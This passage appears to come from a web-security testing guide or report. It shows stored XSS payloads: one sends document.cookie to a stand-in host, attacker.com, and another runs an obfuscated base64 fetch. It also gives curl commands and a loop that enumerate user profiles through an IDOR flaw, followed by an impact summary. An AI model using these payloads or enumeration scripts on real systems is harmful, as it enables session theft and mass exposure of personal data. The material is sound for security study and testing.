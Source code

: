 **Stored XSS:**
```html
<!-- Comment field exploitation -->
<img src=x onerror="fetch('https://attacker.com/steal?data='+document.cookie)">

<!-- Profile bio exploitation -->
<svg/onload="eval(atob('ZmV0Y2goJ2h0dHBzOi8vYXR0YWNrZXIuY29tJyk='))">
```

**Broken Access Control Exploitation:**

**Insecure Direct Object Reference (IDOR):**
```bash
# Test IDOR vulnerability
curl -H "Authorization: Bearer USER_TOKEN" \
  https://api.target.com/users/123/profile

# Try accessing other users
curl -H "Authorization: Bearer USER_TOKEN" \
  https://api.target.com/users/124/profile  # Should fail but doesn't

# Enumerate all users
for id in {1..1000}; do
  curl -H "Authorization: Bearer USER_TOKEN" \
    https://api.target.com/users/$id/profile \
    -o "user_$id.json"
done
```

**Impact:**
```
 BROKEN ACCESS CONTROL EXPLOIT

Vulnerability: Insecure Direct Object Reference (IDOR)
Endpoint: /api/users/:id/profile
Impact: Unauthorized access to all user profiles

Exploitation Steps:
1. Authenticated user can access /api/users/123/profile (their own)
2. Modify ID parameter to /api/users/124/profile
3. Server returns other user's data without authorization check
4. Automated script extracted 1,000+ user profiles

Data Exposed:
- Full names
- Email addresses
- Phone numbers
- Profile pictures
- Account creation dates
- Last login times

Risk: Critical - Privacy violation, potential identity theft
```

